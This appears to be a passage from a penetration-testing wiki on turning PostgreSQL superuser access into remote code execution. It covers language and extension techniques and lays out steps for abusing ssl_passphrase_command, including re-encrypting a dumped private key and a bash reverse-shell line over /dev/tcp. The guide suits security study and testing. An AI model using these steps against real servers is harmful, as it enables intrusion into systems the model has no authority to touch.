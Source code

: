 ### RCE with PostgreSQL Languages

{% content-ref url="../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md" %}
[rce-with-postgresql-languages.md](../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md)
{% endcontent-ref %}

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.

{% content-ref url="../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md" %}
[rce-with-postgresql-extensions.md](../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md)
{% endcontent-ref %}

### PostgreSQL configuration file RCE

The **configuration file** of postgresql is **writable** by the **postgres user** which is the one running the database, so as **superuser** you can write files in the filesystem, and therefore you can **overwrite this file.**

![](<../.gitbook/assets/image (303).png>)

#### **RCE with ssl\_passphrase\_command**

More information [about this technique here](https://pulsesecurity.co.nz/articles/postgres-sqli).

The configuration file have some interesting attributes that can lead to RCE:

* `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
* `ssl_passphrase_command = ''` If the private file is protected by password (encrypted) postgresql will **execute the command indicated in this attribute**.
* `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite**
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`
